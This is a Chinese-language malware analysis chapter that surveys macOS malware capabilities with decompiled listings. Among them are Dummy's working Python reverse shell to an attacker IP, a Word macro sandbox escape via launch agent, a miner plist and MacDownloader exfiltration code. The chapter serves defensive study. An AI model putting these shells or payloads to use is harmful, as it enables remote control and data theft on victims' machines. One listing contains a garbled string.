






# 第三章：能力


在分析恶意软件时，理解成功感染后的发生情况通常至关重要。换句话说，恶意软件到底做了什么？虽然这个问题的答案取决于特定恶意软件的目标，但它可能包括调查系统、提升权限、执行命令、窃取文件、勒索用户文件，甚至挖掘加密货币。在本章中，我们将详细探讨常见的 Mac 恶意软件能力。

## 分类 Mac 恶意软件的能力

恶意软件的能力在很大程度上取决于恶意软件的类型。一般而言，我们可以将 Mac 恶意软件分为两大类：犯罪和间谍。

创造恶意软件的网络犯罪分子通常由一个单一因素驱动：金钱！因此，属于这一类别的恶意软件具有一些能力，旨在帮助恶意软件作者从中获利，可能通过展示广告、劫持搜索结果、挖掘加密货币或加密用户文件进行勒索。广告软件属于这一类别，因为它旨在暗中为创作者生成收入。（广告软件与恶意软件的区别往往比较微妙，在许多情况下几乎无法察觉。因此，在这里，我们不做区分。）

另一方面，旨在监视受害者的恶意软件（例如，某些政府机构）更可能具备更隐蔽或更全面的能力，可能包括通过系统麦克风录音或暴露一个交互式命令行，允许远程攻击者执行任意命令。

当然，这两个大类的能力存在重叠。例如，下载并执行任意二进制文件的能力对大多数恶意软件作者来说是非常有吸引力的，因为它提供了更新或动态扩展其恶意创作的手段（图 3-1）。



图 3-1：恶意软件能力的分类

## 调查与侦察

在犯罪导向和间谍导向的恶意软件中，我们经常会发现一些设计用于调查或侦察系统环境的逻辑，主要有两个原因。首先，这可以让恶意软件了解其周围环境，从而驱动后续的决策。例如，如果恶意软件检测到第三方安全工具，它可能选择不持续感染该系统。或者，如果它发现自己以非根用户权限运行，它可能会尝试提升权限（或仅仅跳过需要此类权限的操作）。因此，恶意软件通常会在进行任何其他恶意操作之前执行侦察逻辑。

其次，恶意软件可能会将其收集的调查信息传回攻击者的命令与控制服务器，在那里攻击者可能会利用这些信息唯一标识感染的系统（通常是通过查找某些系统特有的唯一标识符）或确定感兴趣的感染计算机。在后者的情况下，最初看起来可能是对成千上万系统的无差别攻击，实际上可能是一次高度针对性的行动，根据调查信息，攻击者最终会放弃大多数感染的系统。

让我们简要了解几种 Mac 恶意软件样本中的特定调查功能。相关时，我会指出攻击者如何利用这些调查数据。我们从一种 Proton 恶意软件版本开始。一旦 Proton 进入 Mac 系统，它会进行系统调查，以确定是否安装了任何第三方防火墙。如果找到了防火墙，恶意软件将不会持续感染该系统，而是直接退出。为什么？因为此类防火墙产品可能会在恶意软件尝试连接到其命令与控制服务器时，提醒用户存在恶意软件。因此，恶意软件作者决定跳过持续感染这些系统，而不是冒着被检测的风险。

Proton 的调查逻辑通过检查特定防火墙产品相关文件的存在来检测防火墙。例如，在以下恶意软件反编译代码片段中，我们发现了一个检查属于流行防火墙 LittleSnitch 的内核扩展的操作（列表 3-1）：

```
//string at index 0x51: '/Library/Extensions/LittleSnitch.kext'
1 path = [paths objectAtIndexedSubscript:0x51]; 
2 if (YES == [NSFileManager.defaultManager fileExistsAtPath:path]) 
{
   exit(0x0);
}
```

列表 3-1：检测 LittleSnitch 防火墙（Proton）

在这里，恶意软件首先从硬编码路径的嵌入式字典中提取一个指向 Little Snitch 内核扩展的路径 1。然后，它通过 `fileExistsAtPath` API 检查系统中是否找到该内核扩展。如果确实找到了内核扩展，这意味着防火墙已安装，从而触发恶意软件提前退出 2。

MacDownloader 是另一个具有调查能力的 Mac 恶意软件样本。与 Proton 不同，它的目标并非进行可操作的侦察，而是收集感染系统的详细信息并将其发送给远程攻击者。正如一篇关于该恶意软件的 *Iran Threats* 博客文章所指出的，这些信息包括用户的 *钥匙串*（其中包含密码、证书等），以及关于“运行的进程、已安装的应用程序以及通过伪造的系统偏好设置对话框获取的用户名和密码”的详细信息。^(1)

从恶意软件的二进制文件 *Bitdefender Adware Removal Tool* 中转储 Objective-C 类信息（我们将在第五章中讲解），揭示了多个描述性的方法，这些方法负责执行和导出调查数据（列表 3-2）：

```
% **class-dump "Bitdefender Adware Removal Tool"**
...
- (id)getKeychainsFilePath;
- (id)getInstalledApplicationsList;
- (id)getRunningProcessList;
- (id)getLocalIPAddress;
- (void)saveSystemInfoTo:(id)arg1 withRootUserName:(id)arg2 andRootPassword:(id)arg3;
- (BOOL)SendCollectedDataTo:(id)arg1 withThisTargetId:(id)arg2;
```

列表 3-2：与调查相关的方法（MacDownloader）

在 MacDownloader 将收集到的调查数据发送给攻击者之前，它会将其保存到本地文件 */tmp/applist.txt* 中。通过在虚拟机中运行恶意软件，我们可以通过检查此文件来捕获调查结果（列表 3-3）：

```
"OS version: Darwin users-Mac.local 16.7.0 Darwin Kernel Version 16.7.0: Thu Jun 15 17:36:27 PDT 2017; root:xnu-3789.70.16~2\/RELEASE_X86_64 x86_64",

"Root Username: \"user\"",
"Root Password: \"hunter2\"",
...
[
"Applications\/App%20Store.app\/",
"Applications\/Automator.app\/",
"Applications\/Calculator.app\/",
"Applications\/Calendar.app\/",
"Applications\/Chess.app\/",
...
]
"process name is: Dock\t PID: 254 Run from: file:\/\/\/System\/Library\/CoreServices\/Dock.app\/Contents\/MacOS\/Dock",
"process name is: Spotlight\t PID: 300 Run from: file:\/\/\/System\/Library\/CoreServices\/Spotlight.app\/Contents\/MacOS\/Spotlight",
"process name is: Safari\t PID: 972 Run from: file:\/\/\/Applications\/Safari.app\/Contents\/MacOS\/Safari"...
```

列表 3-3：一项调查（MacDownloader）

如你所见，这份调查信息包含了感染机器的基本版本信息、用户的 root 密码、已安装的应用程序以及正在运行的应用程序列表。

## 提权

在对新感染机器的初步调查过程中，恶意软件通常会查询其运行时环境，以确认其权限级别。当恶意软件最初获得在目标系统上执行代码的能力时，它通常会发现自己在沙箱内运行，或者在当前登录用户的上下文中运行，而不是作为 root 用户。通常，它希望逃逸任何沙箱或提升其权限为 root，这样它就可以更全面地与感染系统交互并执行特权操作。

### 沙箱逃逸

尽管利用沙箱逃逸的恶意软件较为罕见，因为这些逃逸通常需要一个漏洞，但我们可以在 2018 年的一份恶意 Microsoft Office 文档中找到一个例子。名为 *BitcoinMagazine-Quidax_InterviewQuestions_2018* 的文档包含了恶意宏，当文件在 Microsoft Word 中打开时（如果用户启用了宏），这些宏会自动运行。检查这份恶意文档发现，它嵌入了一个 Python 脚本，包含了下载并执行 Metasploit 的 Meterpreter 的逻辑。

然而，macOS 会沙箱化文档，因此它们执行的任何代码都将在一个高度受限、低权限的环境中运行。或者说，它并非如此吗？仔细查看文档中的恶意宏代码，可以发现有逻辑创建了一个名为 *~$com.xpnsec.plist* 的启动代理属性列表（列表 3-4）：

```
# olevba -c "BitcoinMagazine-Quidax_InterviewQuestions_2018.docm"

VBA MACRO NewMacros.bas 
in file: word/vbaProject.bin
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
...
path = Environ("HOME") & "/../../../../Library/LaunchAgents/~$com.xpnsec.plist"
arg = "<?xml version=""1.0"" encoding=""UTF-8""?>\n" & _
"<!DOCTYPE plist PUBLIC ""-//Apple//DTD PLIST 1.0//EN"" ""http://www.apple.com/DTDs/PropertyList-1.0.dtd"">\n" & _
"<plist version=""1.0"">\n" & _
"<dict>\n" & _
"<key>Label</key>\n" & _
"<string>com.xpnsec.sandbox</string>\n" & _
"<key>ProgramArguments</key>\n" & _
"<array>\n" & _
"<string>python</string>\n" & _
"<string>-c</string>\n" & _
"<string>" & payload & "</string>" & _
"</array>\n" & _
"<key>RunAtLoad</key>\n" & _
"<true/>\n" & _
"</dict>\n" & _
"</plist>"
Result = system("echo """ & arg & """ > '" & path & "'", "r")
```

列表 3-4：通过启动代理逃逸沙箱

由于较旧版本的 Microsoft Word 在 macOS 上存在漏洞，程序可以在沙箱内创建以 `~$` 为前缀的启动代理属性列表，如 *~$com.xpnsec.plist*。这些属性列表可以指示 macOS 在用户下次登录时加载一个启动代理，在沙箱外运行。通过这一逃逸手段，Meterpreter 有效负载能够在沙箱外执行，从而使攻击者获得对感染系统的更广泛访问权限。有关 *BitcoinMagazine-Quidax_InterviewQuestions_2018* 文档和其利用的沙箱逃逸的详细分析，请参见我的相关文章：“Word to Your Mac: Analyzing a Malicious Word Document Targeting macOS Users” 和 “Escaping the Microsoft Office Sandbox。”^(2)

### 获取 Root 权限

一旦脱离沙箱（或者如果沙箱本来就不是问题，比如用户直接运行恶意软件的情况），恶意软件通常会尝试获取 root 权限。有了 root 权限后，恶意软件能够执行更多侵入性且隐蔽的操作，而这些操作在没有 root 权限的情况下会被阻止。

恶意软件可以通过多种方法提升权限，其中最简单的一种方法就是直接请求用户授权！例如，在安装一个软件包（*.pkg* 文件）时，任何需要 root 权限的操作都会自动触发授权提示。如 图 3-2 所示，当一个被 EvilQuest 木马感染的包被打开时，恶意软件的安装逻辑会触发此类提示。



图 3-2：授权提示（EvilQuest）

由于用户在安装软件包时经常会被要求提供管理员凭据，而这个提示来自系统安装程序应用的上下文环境，因此大多数用户会选择同意，从而授予恶意软件 root 权限。

如果恶意软件不是作为软件包分发的，它也可以通过调用各种系统 API 请求提升权限。例如，已废弃的 macOS `AuthorizationExecuteWithPrivileges` API 会在用户提供必要凭据后，以 root 权限运行可执行文件。一个利用此 API 的恶意软件示例是 ColdRoot，它在一个名为（虽然拼写错误）`LETMEIN_$$_EXEUTEWITHPRIVILEGES` 的函数中调用它 (列表 3-5)：

```
LETMEIN_$$_EXEUTEWITHPRIVILEGES(...) {

  AuthorizationCreate(...);
  AuthorizationCopyRights(...);
  AuthorizationExecuteWithPrivileges(..., path2self, ...);
```

列表 3-5：调用 `AuthorizationExecuteWithPrivileges` API（ColdRoot）

调用该 API 会生成一个系统请求，要求用户进行身份验证，以便恶意软件能够以 root 权限运行自身 (图 3-3)。



图 3-3: 通过`AuthorizationExecuteWithPrivileges` API 进行的授权提示（ColdRoot）

更复杂的恶意软件可能会寻求通过特权提升漏洞获取 root 甚至内核访问权限，以执行特权操作。2014 年，FireEye 的研究人员发现了 XSLCmd 恶意软件。^(3) 虽然它是一个相当标准的后门，但它包含了一个最初被忽视的零日漏洞，使其能够在感染的系统上全局捕获所有按键。当时，当前版本的 Mac OS X 要求启用辅助设备才能让程序全局捕获按键。程序可以通过创建文件*/var/db/.AccessibilityAPIEnabled*来启用这些设备。然而，创建该文件需要 root 权限。

为了绕过这一要求，该恶意软件以普通用户权限运行，利用 macOS 的`Authenticator`和`UserUtilities`类向*writeconfig.xpc*服务发送消息。该服务以 root 权限运行，但未对客户端进行身份验证，因此允许任何程序连接到它并请求执行特权操作。因此，恶意软件可以强迫该服务创建所需的文件，以启用辅助设备（*/var/db/.AccessibilityAPIEnabled*），从而开始全局键盘记录（列表 3-6）：

```
void sub_10000c007(...) {

  auth = [Authenticator sharedAuthenticator];
   sfAuth = [SFAuthorization authorization]; 1

  [sfAuth obtainWithRight:"system.preferences" flags:0x3 error:0x0];
   [auth authenticateUsingAuthorizationSync:sfAuth]; 2
  ...
  attrs = [NSDictionary dictionaryWithObject:@(444o) 
                        forKey:NSFilePosixPermissions]; 

  data = [NSData dataWithBytes:"a" length:0x1];
  [UserUtilities createFileWithContents:data 
                       path:@"/var/db/.AccessibilityAPIEnabled" attributes:attrs]; 3
```

列表 3-6: 利用 writeconfig XPC 服务的零日漏洞（XSLCmd）

在这段从 XSLCmd 二进制文件反编译出来的代码片段中，我们看到恶意软件首先实例化了两个系统类 1。一旦认证通过 2，它调用了系统的`UserUtilities`类方法，该方法指示*writeconfig.xpc*服务代表它创建*.AccessibilityAPIEnabled*文件 3。

让我们简要看看另一个恶意代码示例，利用特权提升漏洞执行特权操作。在 2015 年，Malwarebytes 的 Adam Thomas 发现了一个广告软件安装程序，利用了一个已知的且当时未修复的零日漏洞。该漏洞最初由安全研究员 Stefan Esser 发现，允许非特权代码执行特权命令（无需 root 密码）。^(4) 该广告软件利用这个漏洞修改了*sudoers*文件，正如 Thomas Reed 所指出的，“这允许使用 sudo 以 root 身份执行 shell 命令，而不需要通常的输入密码要求。”^(5)

最近版本的 macOS 增加了额外的安全机制，以确保即使恶意软件获得了 root 权限，它仍然可能被阻止执行不加选择的操作。但为了规避这些安全机制，恶意软件可能会利用漏洞或试图强迫用户手动绕过它们。可以合理假设，未来我们会看到更多的权限升级漏洞。

## 与广告软件相关的劫持和注入

普通的 Mac 用户不太可能成为拥有零日漏洞的复杂网络间谍攻击者的目标。相反，他们更可能成为简单的广告软件相关攻击的受害者。与其他类型的 Mac 恶意软件相比，广告软件相当普遍。它的目标通常是为其创建者赚取收入，通常通过广告或由附属链接支持的劫持搜索结果。

例如，在 2017 年，我分析了一款名为 Mughthesec 的广告软件，它伪装成 Flash 安装程序。该应用会安装各种广告软件，包括一个名为*Safe Finder*的组件，它会劫持 Safari 的主页，将其设置为指向一个附属链接驱动的搜索页面（图 3-4）。



图 3-4：Safari 的主页被劫持（Mughthesec/Safe Finder）

在感染的系统上，打开 Safari 可以确认主页已被劫持，尽管这种方式看起来似乎无害：它仅仅显示一个看起来相当空白的搜索页面（图 3-5）。然而，查看页面源代码可以发现，其中包含了多个 Safe Finder 脚本。



图 3-5：被感染用户的新主页（Mughthesec/Safe Finder）

这个被劫持的主页通过各种附属链接将用户的搜索引导到最后由 Yahoo! Search 提供服务，并且它将 Safe Finder 逻辑注入到所有搜索结果中。操控搜索结果的能力可能通过广告浏览量和附属链接为广告软件作者带来收入。

另一个与广告相关的例子，IPStorm，是一个跨平台的僵尸网络，在 2020 年发现了其 macOS 变种。在 Intezer 的一份报告中，研究人员指出，Linux 版本的 IPStorm 从事欺诈活动，“滥用游戏和广告变现。因为它是一个僵尸网络，恶意软件利用来自不同可信来源的大量请求，因此不会被屏蔽或追踪。”^(6) 通过嗅探其网络流量，我们可以确认 macOS 变种也从事包括欺诈性广告变现在内的活动（图 3-6）。



图 3-6：欺诈性广告货币化的网络捕获（IPStorm）

要深入了解广告软件及其与联盟计划的联系，请参阅 “[联盟计划如何资助间谍软件](http://www.benedelman.org/news-091405/)”。^(7)

## 加密货币挖矿者

我们已经讨论过，大多数感染普通 Mac 用户的恶意软件很可能是出于经济利益动机。2010 年代末期，出现了大量旨在悄悄在 Mac 系统上安装加密货币挖矿软件的 Mac 恶意软件。加密货币挖矿涉及创建新的数字“货币”和验证用户交易的过程，需要大量的处理资源才能产生任何有意义的收入。恶意软件作者通过将挖矿操作分布到许多被感染的系统中来解决这一资源困境。

实际上，实现加密货币有效载荷的恶意软件通常采用一种相对懒散但高效的方式：通过打包合法矿工的命令行版本。例如，攻击者通过流行的 Mac 应用网站 [MacUpdate.com](http://MacUpdate.com) 暗中分发的 [CreativeUpdate](https://objective-see.com/blog/blog_0x29.html) 恶意软件，就利用了一个合法的加密货币矿工。这款恶意软件以启动代理 *MacOS.plist* 的形式存在，其中我们可以在下面的代码片段（列表 3-7）中看到，它指示系统通过 shell（`sh`）持久化执行名为 `mdworker` 的二进制文件：

```
...
<key>ProgramArguments</key>
<array>
  <string>sh</string>
  <string>-c</string>
  <string>
      ~/Library/mdworker/**mdworker**
      -user walker18@protonmail.ch -xmr
  </string>
</array>
<key>RunAtLoad</key>
<true/>
...
```

列表 3-7：一个持久化启动项 plist（CreativeUpdate）

如果我们在虚拟机中直接执行这个 `mdworker` 二进制文件，它会迅速自我识别为一个控制台挖矿程序，属于多币种挖矿平台 MinerGate（列表 3-7）：^(8)

```
% **./mdworker -help**
  Usage:
  minergate-cli [-`<version>`] -user `<email>` [-proxy `<url>`] 
                -`<currency> <threads>` [`<gpu intensity>`] 
```

启动代理 plist 会将此持久化的挖矿程序传递给参数 `-user walker18@protonmail.ch -xmr`，指定了要将挖矿结果归功于的用户帐户，以及挖掘的加密货币类型，即 XMR（Monero）。

其他最近的 Mac 恶意软件示例，包括 OSAMiner、BirdMiner、CpuMeaner、DarthMiner 和 CookieMiner，都是为了偷偷进行加密货币挖矿而设计的。

## 远程 Shell

有时，攻击者只需要在受害者的系统上获得一个 shell。Shell 让远程攻击者完全控制被感染的系统，允许他们运行任意的 shell 命令和二进制文件。

在恶意软件的背景下，远程 shell 通常有两种主要类型：交互式和非交互式。*交互式* shell 允许远程攻击者像实际坐在受感染的系统前一样“实时操作”该系统。通过这种 shell，攻击者可以运行并中断 shell 命令，同时将所有输入和输出实时路由到攻击者的远程服务器。*非交互式* shell 仍然提供了一个机制，让攻击者通过受感染系统的内置 shell 运行命令。然而，它们通常只接收来自攻击者远程命令和控制服务器的命令，并在指定的时间间隔执行它们。

设置并执行远程 shell 的恶意软件不需要特别复杂。例如，名为 Dummy 的恶意软件运行了一个 bash 脚本（*/var/root/script.sh*），将其持久化为启动守护进程，并用它执行一个内联 Python 脚本（列表 3-8）：

```
#!/bin/bash
while :
do
     python -c 'import socket,subprocess,os; 

     s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
   1 s.connect(("185.243.115.230",1337)); 

     os.dup2(s.fileno(),0); 
     os.dup2(s.fileno(),1); 
   2 os.dup2(s.fileno(),2); 

   3 p=subprocess.call(["/bin/sh","-i"]);' 
     sleep 5
done
```

列表 3-8：一个持久化的远程 shell（Dummy）

Dummy 的 Python 代码将尝试连接到 IP 地址 `185.243.115.230` 上的端口 `1337` 1。然后它会将 `STDIN`（`0`）、`STDOUT`（`1`）和 `STDERR`（`2`）复制到连接的套接字 2，然后执行带有交互模式 `-i` 标志的 `/bin/sh` 3。换句话说，它正在设置一个远程交互式反向 shell。

在受感染的系统上，持久运行的 */bin/sh* 实例连接到远程 IP 地址是相当容易发现的。因此，更复杂的恶意软件可能会通过编程方式实现这些功能，以保持更好的隐蔽性。例如，Lazarus Group 后门可以使用名为 `proc_cmd` 的函数远程执行 shell 命令（列表 3-9）：

```
int proc_cmd(char * arg0, ...) {

     bzero(&command, 0x400);
   1 sprintf(&command, "%s 2>&1 &", arg0); 
   2 rax = popen(&command, "r"); 
     ...
}
```

列表 3-9：通过 `popen` API 执行命令（Lazarus Group 后门）

在 `proc_cmd` 函数中，我们可以看到后门首先构建了要在后台执行的命令 1。然后它调用 `popen` 系统 API，进而调用 shell（*/bin/sh*）来执行指定的命令 2。尽管是非交互式的，这段代码仍然为远程攻击者提供了在受感染系统上执行任意 shell 命令的手段。

## 远程进程和内存执行

通过 shell 执行命令相当“吵闹”，因此更容易被检测到。更复杂的恶意软件可能绕过 shell，直接包含逻辑以在受感染的系统上执行进程。例如，Komplex 恶意软件可以使用程序化 API 执行任意二进制文件。如果我们从恶意软件中提取符号，会发现一个名为 `FileExplorer` 的自定义类，它有一个名为 `executeFile` 的方法，如 列表 3-10 所示：

```
% **nm -C Komplex/kextd**
...
0000000100001e60 T FileExplorer::executeFile(char const*, unsigned long)
```

列表 3-10：一个文件执行方法（Komplex）

反编译该方法后发现，它调用了 Apple 的 `[NSTask](https://developer.apple.com/documentation/foundation/nstask)` API 来执行指定的二进制文件（列表 3-11）：

```
FileExplorer::executeFile(...) {
   ...  
   path = [NSString stringWithFormat:@"%s/%s", 
         1 directory, FileExplorer::getFileName()]; 

  2 NSTask* task = [[NSTask alloc] init]; 
   [task setLaunchPath:path];
   [task launch];
   [task waitUntilExit];
}
```

列表 3-11：文件执行逻辑（Komplex）

从`FileExplorer`的`executeFile`方法的反编译中，我们看到它首先构建了一个包含要执行文件完整路径的字符串对象（`NSString`），然后它初始化了一个任务对象（`NSTask`）来执行该文件。

生成一个进程仍然是一个非常显眼的事件，因此一些恶意软件作者选择直接*从内存中执行二进制代码*。你可以在 2019 年 Lazarus 集团的一个植入程序 AppleJeus.C 中看到这一策略的应用（清单 3-12）。

```
int memory_exec2(void* bytes, int size, ...) {
    ...
    NSCreateObjectFileImageFromMemory(bytes, size, &objectFile); 
    NSLinkModule(objectFile, "core", 0x3); 
    ...
```

清单 3-12：内存中代码执行（Lazarus 集团后门）

恶意软件调用名为`memory_exec2`的函数，并传入各种参数，比如一个只在内存中下载并解密的远程有效载荷。正如代码片段所示，函数调用了苹果的`NSCreateObjectFileImageFromMemory`和`NSLinkModule` API，以准备内存中的有效载荷进行执行。恶意软件随后动态定位并调用已经准备好的有效载荷的入口点。这种先进的能力确保了恶意软件的第二阶段有效载荷从未接触到文件系统，也不会导致新进程的生成，确实非常隐蔽！

有趣的是，看来 Lazarus 集团直接从 Cylance，一家提供病毒防护并进行威胁研究的公司，博客文章和 GitHub 项目中获取了这段内存有效载荷代码。对于恶意软件作者来说，使用这一开源恶意软件有多个好处，包括高效（代码已经写好！）和更复杂的归属追踪。欲了解 Lazarus 集团植入程序的内存加载能力的技术深度解析，请参阅我的文章《Lazarus 集团采用“无文件”策略》^(9)。

## 远程下载与上传

另一种常见的恶意软件能力，尤其是针对网络间谍的恶意软件，是从攻击者服务器远程下载文件，或从感染系统上传收集的数据，这种行为称为*数据外泄*。

恶意软件通常具备将文件远程下载到感染系统的能力，以便攻击者能够升级恶意软件或下载并执行二阶段有效载荷和其他工具。WindTail 恶意软件很好地展示了这一能力。作为一个文件外泄的网络间谍植入程序，WindTail 还具备从攻击者的远程命令与控制服务器下载并执行额外有效载荷的能力。实现文件下载功能的逻辑位于一个名为`sdf`的方法中。该方法首先解密一个嵌入式的命令与控制服务器地址，接着向该服务器发送初始请求，以获取即将下载文件的本地名称。第二次请求则下载远程服务器上的实际文件。

像我的开源工具 Netiquette 这样的网络监视器可以显示 WindTail 用于下载文件的两个连接（清单 3-13）：

```
% **./netiquette -list**

usrnode(4897)
  127.0.0.1 -> flux2key.com:80 (Established)

usrnode(4897)
  127.0.0.1 -> flux2key.com:80 (Established)
```

清单 3-13：文件下载连接（WindTail）

一旦 WindTail 将下载的文件保存到受感染的系统中，它会解压文件并执行它。

恶意软件还可能将文件从受害者的计算机上传到攻击者的服务器。通常，这些上传的文件包含有关感染系统的信息（调查）或可能引起攻击者兴趣的用户文件。

例如，在本章早些时候我提到的 MacDownloader，它收集系统相关数据，例如已安装的应用程序，并将其保存到磁盘。然后，它通过一个名为`SendCollectedDataTo:withThisTargetId:`的方法，将这些调查数据通过`uploadFile:ToServer:withTargetId:`方法外泄到攻击者的指挥和控制服务器上（清单 3-14）：

```
-AuthenticationController SendCollectedDataTo:withThisTargetId: {
   ...

   if (([CUtils hasInternet:0x0] & 0x1 & 0xff) != 0x0) { 
      ...
      file ="[@"/tmp/applist."xt" retain];
      [CUtils uploadFile:file ToServer:0x0 withTargetId:0x0]; 
      ...
      }
}
```

清单 3-14：文件外泄封装器（MacDownloader）

如清单 3-14 所示，恶意软件首先调用一个方法来确保它已连接到互联网。如果连接正常，调查文件*applist.txt*将通过`uploadFile:`方法上传。检查该方法中的代码发现，它使用了 Apple 的`NSMutableURLRequest`和`NSURLConnection`类通过 HTTP `POST`请求上传文件（清单 3-15）：

```
+(char)uploadFile:(void *)arg2 ToServer:(void *)arg3 withTargetId:(void *)arg4 {
    ...

    request = [[NSMutableURLRequest requestWithURL:var_58 cachePolicy:0x0 
                timeoutInterval:var_50] retain];

    [request setHTTPMethod:@"POST"];
    [request setAllHTTPHeaderFields:var_78];
    [request setHTTPBody:var_88];

 rax = [NSURLConnection sendSynchronousRequest:request
           returningResponse:0x0 error:&var_A0];
    ...
}
```

清单 3-15：文件外泄（MacDownloader）

当然，还有其他编程方法可以下载和上传文件。在各种 Lazarus 集团的恶意软件中，`curl`库被用来执行此任务。例如，在他们的一个持久后门中，我们可以找到一个名为`post`的方法，通过`curl`库将文件（发送）到攻击者控制的服务器（清单 3-16）。

```
handle = curl_easy_init(); 

curl_easy_setopt(handle, 0x2727, ...); 
curl_easy_setopt(handle, 0x4e2b, ...); 
curl_easy_setopt(handle, 0x2711, ...); 
curl_easy_setopt(handle, 0x271f, postdata); 

curl_easy_perform(handle); 
```

清单 3-16：libcurl API（Lazarus 集团植入使用）

在清单 3-16 中，我们可以看到后门首先调用`curl_easy_init`函数进行初始化，并返回一个句柄用于后续的调用。然后，通过`curl_easy_setopt`函数设置各种选项。通过查阅 libcurl API 文档，我们可以将指定的常量映射为人类可读的值。例如，最显著的是`0x271f`。它映射为`CURLOPT_POSTFIELDS`，该选项将文件数据设置为上传到攻击者的远程服务器。最后，恶意软件调用`curl_easy_perform`函数完成`curl`库操作，执行文件外泄。

最后，各种 Mac 恶意软件会根据文件扩展名从感染的计算机中外泄文件。例如，在扫描受感染系统，检查感兴趣的文件扩展名后，WindTail 会创建 ZIP 归档文件，并通过 macOS 内置的`curl`工具上传它们。使用进程和网络监控工具，我们可以被动地观察到这一过程的实际操作。在第七章中，我们将更详细地讨论这种动态分析方法。

## 文件加密

第二章提到过勒索软件，或是旨在加密用户文件并要求支付赎金的恶意软件。由于勒索软件如今非常流行，macOS 也出现了它的增长。作为一个例子，我们来看一下 KeRanger，这是首个在野外发现的完全功能化的 macOS 勒索软件。^(10)

KeRanger 会连接到一个远程服务器，期望收到由公钥 RSA 加密密钥和解密指令组成的响应。凭借这个加密密钥，它将递归地加密*/Users/*下的所有文件，以及*/Volumes*下匹配特定扩展名的所有文件，包括*.doc*、*.jpg*和*.zip*。这在以下恶意软件`startEncrypt`函数的反编译代码片段中有所展示：

```
void startEncrypt(...) {
...
  recursive_task("/Users", encrypt_entry, putReadme); 

  recursive_task("/Volumes", check_ext_encrypt, putReadme);
```

对于勒索软件加密文件的每个目录，它都会创建一个名为*README_FOR_DECRYPT.txt*的纯文本 README 文件，指导用户如何支付赎金并恢复文件（图 3-7）。


图 3-7：解密指令（KeRanger）

除非用户支付赎金，否则他们的文件将保持锁定状态。

另一个具有勒索软件功能的 Mac 恶意软件示例是 EvilQuest。在被感染的系统中，EvilQuest 会搜索与硬编码文件扩展名列表匹配的文件，如*.jpg*和*.txt*，然后对它们进行加密。一旦所有文件被加密，恶意软件会将解密指令写入一个名为*READ_ME_NOW.txt*的文件，并通过 macOS 内建的`say`命令将其朗读给用户听。

有关 macOS 上勒索软件的详细历史和更全面的技术讨论，请参阅我的文章《走向通用勒索软件检测》。^(11)

## 隐匿性

在恶意软件感染系统后，它通常会将隐匿性视为最重要的目标。（勒索软件，一旦加密了用户文件，通常是个例外。）有趣的是，当前的 Mac 恶意软件通常不会花太多精力去利用隐匿功能，即使检测通常意味着死亡打击。相反，大多数恶意软件通过采用伪装成 Apple 或操作系统组件的文件名，试图在明处隐藏。例如，EvilQuest 通过名为*com.apple.questd.plist*的启动代理持续存在，该代理执行一个名为*com.apple.questd*的二进制文件。恶意软件作者正确地假设，普通的 Mac 用户不会对这些文件和进程名称产生怀疑。

其他恶意软件通过在恶意组件名称前加上一个句点，进一步提高隐蔽性。例如，GMERA 创建了一个名为*.com.apple.upd.plist*的启动代理。由于 Finder 应用程序默认不显示以句点开头的文件，这为恶意软件提供了额外的隐蔽性。

